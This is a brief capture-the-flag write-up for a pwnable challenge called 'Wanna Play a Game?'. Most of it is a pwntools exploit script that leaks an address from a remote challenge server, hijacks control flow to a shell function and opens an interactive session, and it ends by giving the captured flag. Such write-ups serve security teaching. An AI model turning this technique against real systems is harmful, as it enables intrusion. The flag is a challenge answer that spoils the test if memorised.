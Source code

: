 # Wanna Play a Game?

`Pwnable`

`We can jump any address with our rdx. So leak the address of get_shell, and go to that address.`

```python
from pwn import *
e = ELF('chall')
HOST = 'fe34abc77b40214b09648640e2a19860.chal.ctf.ae'
p = remote(HOST, 443, ssl=True, sni=HOST)
p.sendafter(b'Name> ', p64(e.sym['printf']))
p.sendafter(b'> ', str(7*2+1).encode())
p.sendafter(b'> ', str(0x404060).encode())
passcode = p.recv(8)
www = int.from_bytes(passcode,'little')
p.sendafter(b'> ', b'2')
p.sendafter(b'> ', str(www).encode())
p.interactive()
```

flag is: **flag{8tdGUPB6sf21lsM3S5f3tB4ymV9NLRGJ}**

